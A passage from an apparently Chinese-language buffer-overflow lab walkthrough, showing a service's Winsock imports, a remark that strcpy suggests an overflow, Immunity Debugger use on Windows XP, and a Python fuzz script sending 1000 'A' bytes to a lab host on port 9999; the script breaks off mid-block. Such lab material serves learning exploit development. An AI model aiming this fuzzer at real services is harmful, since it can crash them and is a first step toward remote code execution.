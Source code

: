 ```
WSAStartup
accept
bind
closesocket
htons
listen
recv
send
socket

```

看到**strcpy**这个函数，可能存在缓冲区溢出漏洞

在**XP系统**上面使用ImmunityDebugger进行调试，点击运行按钮

![](../../.gitbook/assets/1564739819_5d4408eb3db3d.png)

payload

```
root@kali:~# cat fuzz.py 
import sys,socket

victim = '192.168.0.103'
port = 9999

payload = "\x41" * 1000


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  print "[-] Connecting to " + str(victim)
  s.connect((victim, port))
  s.recv(1024)

  # Send payload 
  print "[-] Sending payload.... ",
  s.send(payload)
  print "Done"

```